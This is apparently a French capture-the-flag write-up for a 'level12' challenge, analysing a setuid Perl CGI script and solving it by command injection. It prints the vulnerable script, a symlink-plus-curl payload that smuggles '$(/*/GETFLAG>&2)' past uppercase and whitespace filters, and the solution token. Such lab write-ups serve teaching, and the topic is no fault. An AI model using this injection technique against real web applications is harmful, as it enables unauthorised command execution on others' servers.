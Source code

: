 # Level12

### Observations:
##### J'affiche le contenue du programme '~/level12.pl':
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

##### Détails du programme:
```bash
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
```

Je me rend compte que ce programme est exécute par défaut en tant qu'utilisateur 'flag12' grâce à la commande:
```sh
ps aux | grep flag12
```

##### Entrées du programme:
```perl
string x
string y
```

##### Fonctionnement:
Ce programme est composé de deux fonctions aux utilitées douteuses:
 * La fonction \<t>:
	1. Applique un filtre sur 'x' qui transforme les lettres minuscules en majuscules.
	2. Applique un filtre sur 'x' qui enlève tout ce qu'il y a après un caractère de séparation.
	3. Exécute une commande shell qui utilise la variable 'x' modifiée.
 * La fonction \<n> est inutile dans son fonctionnement.

> Le programme tourne sur un serveur tcp par defaut

##### Conclusions:
Ce programme a une faille dans la fonction \<t> plus précisement au moment d'exécuter la commande shell. \
Nous pouvons insérer la commande que nous voulons dans celle-ci tant que nous respectons ces règles simples:
 - Utiliser uniquement des caractères majuscule.
 - Ne pas écrire de caractères de séparation.

### Résolution
Je créer un lien symbolique léger pour me permettre d'exécuter getflag avec des caractères majuscules. \
J'effectue une requête au serveur avec ma commande à injecter que je redirige dans le flux d'erreur. \
Puis j'affiche la dernière ligne du fichier de log du flux d'erreur.

#### commandes:
```bash
ln -s /bin/getflag /tmp/GETFLAG
curl '127.0.0.1:4646?x="$(/*/GETFLAG>%262)"'
tail -n 1 /var/log/apache2/error.log
```
> Notez l'utilisation du shellcode '%26' pour éviter que le caractère de '&' soit pris en compte dans le filtre de séparateurs.


**token :** g1qKMiRpXf53AWhDaU7FEkczr